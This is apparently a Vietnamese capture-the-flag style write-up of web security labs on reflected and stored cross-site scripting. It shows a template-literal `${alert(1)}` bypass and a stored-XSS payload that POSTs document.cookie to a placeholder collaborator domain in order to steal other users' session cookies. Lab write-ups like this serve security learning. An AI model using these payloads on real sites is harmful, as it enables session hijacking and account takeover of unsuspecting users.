 >![image](https://hackmd.io/_uploads/Hyt8B9Em0.png)
> Load lại trang và thấy escape thành công:
![image](https://hackmd.io/_uploads/S1PEH9EmC.png)

>Khi ấn vào tên người comment thì trigger thành công hàm alert(): ![image](https://hackmd.io/_uploads/r1pJL54XC.png)

>Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/SyzZLqNXA.png)

# **21. Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped**

![image](https://hackmd.io/_uploads/Skh9kjEQR.png)

>Bài lab này sử dụng template literal trong dấu backticks **``** để hiển thị chuỗi search ở biến `message`. Các kí tự `'<>"/`  đều bị Unicode encode.
>![image](https://hackmd.io/_uploads/rJHL8iEQC.png)

>Ta sẽ dùng `${}` syntax để thực thi JS expression trong dấu backticks `` của template mà không cần phải terminate khỏi nó. Ví dụ, search với chuỗi `${1+1}`: ![image](https://hackmd.io/_uploads/HyGCIj4QA.png)

>Có thể thấy `${1+1}` đã được thực thi và trả về `2`: ![image](https://hackmd.io/_uploads/rkQkvjE7R.png)

>Xác nhận rằng có thể dùng cách này để bypass filter và thực thi lệnh bên trong, sử dụng payload `${alert(1)}`: ![image](https://hackmd.io/_uploads/rkJLviNXA.png)

>Hàm alert() được thực thi thành công, hoàn thành bài lab: ![image](https://hackmd.io/_uploads/HJOvDsN7C.png)

# **22. Lab: Exploiting cross-site scripting to steal cookies**

![image](https://hackmd.io/_uploads/BJwT_jNXA.png)

>Tương tự các bài trên, chức năng comment bị dính Stored XSS. Kiểm tra với trường comment với `<script>alert(1)</script>` thì thấy attack thành công: ![image](https://hackmd.io/_uploads/HyhDFo4XR.png)

>Ta sẽ đi lấy cắp cookie của user khác bằng payload:

```javascript
<script>
fetch('//<COLLABORATOR DOMAIN>', {
method: 'POST',
body:document.cookie
});
</script>
```

>Cụ thể, khi user khác xem comment chứa payload trên, nó sẽ POST đến Collaborator domain đang lắng nghe với body chứa cookie.
>Thực hiện gửi comment chứa đoạn payload trên:![image](https://hackmd.io/_uploads/SyeNnjNX0.png)
